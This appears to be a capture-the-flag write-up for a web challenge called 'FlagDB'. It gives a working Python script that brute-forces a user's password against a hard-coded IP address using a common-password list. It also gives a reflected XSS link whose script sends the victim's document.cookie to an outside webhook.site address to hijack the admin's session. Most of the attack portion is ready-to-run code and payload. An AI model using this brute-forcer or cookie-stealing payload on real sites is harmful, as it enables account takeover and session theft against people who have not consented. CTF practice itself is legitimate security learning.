 # FlagDB

Here we knew that Jammie was the username so in order to connect to the site we had to figure out the password.

So, we made a script that automatically brute forces passwords from this git: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/Pwdb_top-10000.txt


import requests

url = "http://141.85.224.118:7081/"
wordlist = "passwords.txt"  
data_field = "password"    

# First, get the baseline response length
baseline = requests.post(url, data={data_field: "wrongpassword"}).text
baseline_length = len(baseline)

print(f"[i] Baseline response length: {baseline_length}")

with open(wordlist, "r") as file:
    for password in file:
        password = password.strip()
        data = {data_field: password}
        
        response = requests.post(url, data=data)
        response_length = len(response.text)

        print(f"[-] Tried: {password} | Length: {response_length}")

        if response_length != baseline_length:
            print(f"[+] Possible match! Password: {password}")
            break


And then we are logged in as Jamie, and we figure out that we need to contact the admin on staff @ web with this link to steal the cookie and steal the session of admin by using this link:

http://141.85.224.118:7081/?nickname=<script>fetch('/flag').then(r=>r.text()).then(d=>fetch('https://webhook.site/6a985bb3-a95b-439f-9de3-791071bb4aea',{method:'POST',body:document.cookie}))</script>

[https://media.discordapp.net/attachments/1392091689140752385/1393635384272879666/image.png?ex=68753518&is=6873e398&hm=3b9c4848bb9ad681405d854c2e43df80c7798159c2b897a60ce1e0ef11072397&=&format=webp&quality=lossless]
